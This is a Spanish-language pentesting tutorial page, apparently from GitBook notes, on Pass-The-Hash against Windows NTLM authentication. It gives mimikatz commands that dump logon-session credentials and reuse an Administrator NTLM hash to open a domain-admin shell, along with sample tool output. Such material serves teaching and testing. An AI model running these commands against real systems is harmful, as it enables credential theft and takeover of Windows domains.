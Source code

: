 ```yaml
---
layout:
  title:
    visible: true
  description:
    visible: false
  tableOfContents:
    visible: true
  outline:
    visible: true
  pagination:
    visible: true
---
```


# Pass-The-Hash con Windows

Esta tecnica consiste en el protocolo de autenticacion `NTLM` con sus dichos `hashes` este protocolo de autenticacion es menos seguro que el de `kerberos`, pero cuando nosotros nos conectamos de forma remota o nos conectamos mediante una `IP` y no mediante un dominio en muchos casos pasara autenticarse mediante el protocolo `NTLM` pero si lo hacemos atraves de un dominio, podremos hacerlo mediante `kerberos`, por lo que con `NTLM` al ser menos seguro podremos realizar este tipo de tecnicas que vamos a ver ahora.

A dia de hoy se sigue utilizando a nivel local, pero podremos especificar a `Windows` que no queremos este tipo de autenticacion de una forma, pero no es muy recomendable, ya que muchas maneras de autenticacion pueden deshabilitarse y dar problemas.

Si nosotros hemos obtenido las credenciales del `Administrador` del dominio por ejemplo mediante las `logon sessions` utilizando `mimikatz` como hemos visto anteriormente:

```powershell
sekurlsa::logonpasswords
```

Info:

```
Authentication Id : 0 ; 7531224 (00000000:0072ead8)
Session           : Interactive from 0
User Name         : Administrator
Domain            : CORP
Logon Server      : DC01
Logon Time        : 20/01/2025 10:23:12
SID               : S-1-5-21-3352250647-938130414-2449934813-500
        msv :
         [00000003] Primary
         * Username : Administrator
         * Domain   : CORP
         * NTLM     : a87f3a337d73085c45f9416be5787d86
         * SHA1     : 34957e9ba3455a4a99d722b48693ac1123ba5dba
         * DPAPI    : b937fc9669fa922df0050d0d2f6d5de4
        tspkg :
        wdigest :
         * Username : Administrator
         * Domain   : CORP
         * Password : (null)
        kerberos :
         * Username : Administrator
         * Domain   : CORP.LOCAL
         * Password : (null)
        ssp :
        credman :
        cloudap :
```

Hemos intentado `crackear` el `hash` `NTLM` pero pongamos que no hemos obtenido exito.

Pero lo que si podemos hacer es realizar un `Pass-The-Hash` con `mimikatz` utilizando el `hash` del `Administrador` de la siguiente forma:

```powershell
sekurlsa::pth /user:Administrator /domain:corp.local /ntlm:a87f3a337d73085c45f9416be5787d86
```

Lo que va hacer `mimikatz` es crear una nueva `logon session` dentro de esta maquina (Ya que somos `administradores` locales de esta maquina) va a sobreescribir el `hash` que haya asociada a ella en memoria por este `hash` del usuario `administrador`, despues va a copiar el `Token de acceso` que tenemos asociado a este proceso y se lo va añadir tambien a esta `logon session`, y una vez echo eso va a ejecutar una `cmd` como dicho usuario.

Info:

```
user    : Administrator
domain  : corp.local
program : cmd.exe
impers. : no
NTLM    : a87f3a337d73085c45f9416be5787d86
  |  PID  3448
  |  TID  3228
  |  LSA Process is now R/W
  |  LUID 0 ; 7674536 (00000000:00751aa8)
  \_ msv1_0   - data copy @ 00000224E7C04E80 : OK !
  \_ kerberos - data copy @ 00000224E7D777C8
   \_ des_cbc_md4       -> null
   \_ des_cbc_md4       OK
   \_ des_cbc_md4       OK
   \_ des_cbc_md4       OK
   \_ des_cbc_md4       OK
   \_ des_cbc_md4       OK
   \_ des_cbc_md4       OK
   \_ *Password replace @ 00000224E7679D38 (32) -> null
```

Y veremos algo asi:

<figure><img src="../../.gitbook/assets/image (92).png" alt=""><figcaption></figcaption></figure>

Y con esto ya tendremos un `cmd` como el usuario `Administrador` del dominio.
